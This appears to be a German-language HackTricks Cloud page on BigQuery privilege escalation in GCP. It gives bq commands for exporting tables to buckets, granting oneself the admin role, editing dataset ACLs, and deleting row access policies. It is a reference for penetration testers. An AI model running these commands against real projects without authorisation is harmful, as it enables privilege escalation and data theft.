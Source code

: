 # GCP - BigQuery Privesc

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}

## BigQuery

Für weitere Informationen zu BigQuery siehe:

{% content-ref url="../gcp-services/gcp-bigquery-enum.md" %}
[gcp-bigquery-enum.md](../gcp-services/gcp-bigquery-enum.md)
{% endcontent-ref %}

### Tabelle lesen

Durch das Lesen der Informationen, die in einer BigQuery-Tabelle gespeichert sind, könnte es möglich sein, **sensible Informationen** zu finden. Um auf die Informationen zuzugreifen, sind die benötigten Berechtigungen **`bigquery.tables.get`**, **`bigquery.jobs.create`** und **`bigquery.tables.getData`**:
```bash
bq head <dataset>.<table>
bq query --nouse_legacy_sql 'SELECT * FROM `<proj>.<dataset>.<table-name>` LIMIT 1000'
```
### Daten exportieren

Dies ist eine weitere Möglichkeit, auf die Daten zuzugreifen. **Exportieren Sie sie in einen Cloud-Speicher-Bucket** und **laden Sie die Dateien** mit den Informationen herunter.\
Um diese Aktion durchzuführen, sind die folgenden Berechtigungen erforderlich: **`bigquery.tables.export`**, **`bigquery.jobs.create`** und **`storage.objects.create`**.
```bash
bq extract <dataset>.<table> "gs://<bucket>/table*.csv"
```
### Daten einfügen

Es könnte möglich sein, **bestimmte vertrauenswürdige Daten** in eine Bigquery-Tabelle einzufügen, um eine **Schwachstelle an anderer Stelle auszunutzen.** Dies kann einfach mit den Berechtigungen **`bigquery.tables.get`**, **`bigquery.tables.updateData`** und **`bigquery.jobs.create`** durchgeführt werden:

{% code overflow="wrap" %}
```bash
# Via query
bq query --nouse_legacy_sql 'INSERT INTO `<proj>.<dataset>.<table-name>` (rank, refresh_date, dma_name, dma_id, term, week, score) VALUES (22, "2023-12-28", "Baltimore MD", 512, "Ms", "2019-10-13", 62), (22, "2023-12-28", "Baltimore MD", 512, "Ms", "2020-05-24", 67)'

# Via insert param
bq insert dataset.table /tmp/mydata.json
```
{% endcode %}

### `bigquery.datasets.setIamPolicy`

Ein Angreifer könnte dieses Privileg missbrauchen, um **sich selbst weitere Berechtigungen** über ein BigQuery-Dataset zu gewähren:
```bash
# For this you also need bigquery.tables.getIamPolicy
bq add-iam-policy-binding \
--member='user:<email>' \
--role='roles/bigquery.admin' \
<proj>:<dataset>

# use the set-iam-policy if you don't have bigquery.tables.getIamPolicy
```
### `bigquery.datasets.update`, (`bigquery.datasets.get`)

Nur diese Berechtigung ermöglicht es, **Ihren Zugriff auf ein BigQuery-Dataset zu aktualisieren, indem die ACLs geändert werden**, die angeben, wer darauf zugreifen kann:
```bash
# Download current permissions, reqires bigquery.datasets.get
bq show --format=prettyjson <proj>:<dataset> > acl.json
## Give permissions to the desired user
bq update --source acl.json <proj>:<dataset>
## Read it with
bq head $PROJECT_ID:<dataset>.<table>
```
### `bigquery.tables.setIamPolicy`

Ein Angreifer könnte dieses Privileg missbrauchen, um **sich selbst weitere Berechtigungen** über eine BigQuery-Tabelle zu geben:
```bash
# For this you also need bigquery.tables.setIamPolicy
bq add-iam-policy-binding \
--member='user:<email>' \
--role='roles/bigquery.admin' \
<proj>:<dataset>.<table>

# use the set-iam-policy if you don't have bigquery.tables.setIamPolicy
```
### `bigquery.rowAccessPolicies.update`, `bigquery.rowAccessPolicies.setIamPolicy`, `bigquery.tables.getData`, `bigquery.jobs.create`

Laut den Dokumenten ist es mit den genannten Berechtigungen möglich, eine **Zeilenrichtlinie zu aktualisieren.**\
Allerdings benötigst du **zusätzlich zur CLI `bq`** noch einige weitere: **`bigquery.rowAccessPolicies.create`**, **`bigquery.tables.get`**.

{% code overflow="wrap" %}
```bash
bq query --nouse_legacy_sql 'CREATE OR REPLACE ROW ACCESS POLICY <filter_id> ON `<proj>.<dataset-name>.<table-name>` GRANT TO ("<user:user@email.xyz>") FILTER USING (term = "Cfba");' # A example filter was used
```
{% endcode %}

Es ist möglich, die Filter-ID in der Ausgabe der Zeilenrichtlinienenumeration zu finden. Beispiel:
```bash
bq ls --row_access_policies <proj>:<dataset>.<table>

Id        Filter Predicate            Grantees              Creation Time    Last Modified Time
------------- ------------------ ----------------------------- ----------------- --------------------
apac_filter   term = "Cfba"      user:asd@hacktricks.xyz   21 Jan 23:32:09   21 Jan 23:32:09
```
Wenn Sie **`bigquery.rowAccessPolicies.delete`** anstelle von `bigquery.rowAccessPolicies.update` haben, könnten Sie auch einfach die Richtlinie löschen:

{% code overflow="wrap" %}
```bash
# Remove one
bq query --nouse_legacy_sql 'DROP ALL ROW ACCESS POLICY <policy_id> ON `<proj>.<dataset-name>.<table-name>`;'

# Remove all (if it's the last row policy you need to use this
bq query --nouse_legacy_sql 'DROP ALL ROW ACCESS POLICIES ON `<proj>.<dataset-name>.<table-name>`;'
```
{% endcode %}

{% hint style="danger" %}
Eine weitere potenzielle Option, um Zeilenzugriffsrichtlinien zu umgehen, wäre, einfach den Wert der eingeschränkten Daten zu ändern. Wenn Sie nur sehen können, wenn `term` `Cfba` ist, ändern Sie einfach alle Datensätze der Tabelle so, dass `term = "Cfba"` ist. Dies wird jedoch von BigQuery verhindert.
{% endhint %}

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}
